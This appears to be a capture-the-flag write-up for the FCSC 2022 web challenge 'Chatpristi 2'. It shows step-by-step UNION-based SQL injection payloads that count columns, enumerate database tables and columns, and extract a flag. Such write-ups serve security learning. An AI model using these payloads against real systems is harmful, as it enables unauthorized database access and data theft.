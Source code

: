 # Write-up: FCSC 2022 - Web Challenge - Chatpristi 2

## Challenge Description
The challenge consisted of a simple web application featuring a collection of cat memes and a search bar. As soon as I accessed the website, I noticed the search bar, which immediately caught my attention as a possible entry point for injection attacks.

---

## Reconnaissance
I started by exploring the web page to understand its layout and possible vulnerabilities. The search bar seemed like a great candidate to test for SQL Injection vulnerabilities, as such fields often interact with the database.

---

## SQL Injection Testing and Exploitation

### Step 1: Testing for the Number of Columns
To determine the number of columns in the vulnerable table, I began with a basic payload:

    ') UNION SELECT null --
  This produced an error indicating a column mismatch. I iteratively increased the number of null values until no error was returned:

    ') UNION SELECT null, null, null--
  This confirmed that the table had three columns.

  ![Alt Text](https://github.com/Guerboukha/chapr/blob/main/1.PNG)

### Step 2: Determining Column Data Types
  Next, I tested the data types for each column by replacing null with test values:

    ') UNION SELECT 1, 'a', 'a'--
  The query executed successfully, indicating the first column was of type int and the other two were string.

  ![Alt Text](https://github.com/Guerboukha/chapr/blob/main/2.PNG)

### Step 3: Enumerating Tables
  To identify all tables in the database, I executed the following payload:

    ') UNION SELECT 1, 'i', table_name FROM information_schema.tables--
   This listed all tables in the database. Among the results, one table stood out:
        
                  ___youw1lln3verfindmyfl4g___.

  ![Alt Text](https://github.com/Guerboukha/chapr/blob/main/3.PNG)

### Step 4: Enumerating Columns in the Target Table
   I then explored the columns of the target table using this payload:

    ') UNION SELECT 1, 'i', column_name FROM information_schema.columns WHERE table_name = '___youw1lln3verfindmyfl4g___'--
  The query returned two columns:

              id
              fstbg0adwb8f5upmg
              
  ![Alt Text](https://github.com/Guerboukha/chapr/blob/main/4.PNG)
    
### Step 5: Retrieving the Flag
  Finally, I crafted a payload to extract the contents of the table:

  ') UNION SELECT 1, id::text, fstbg0adwb8f5upmg FROM ___youw1lln3verfindmyfl4g___--

   This query revealed the flag stored in the table:

                    FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}
  Final Results:
  
![Alt Text](https://github.com/Guerboukha/chapr/blob/main/5.PNG)

  
  The SQL injection exploitation confirmed the vulnerability and successfully extracted the flag.
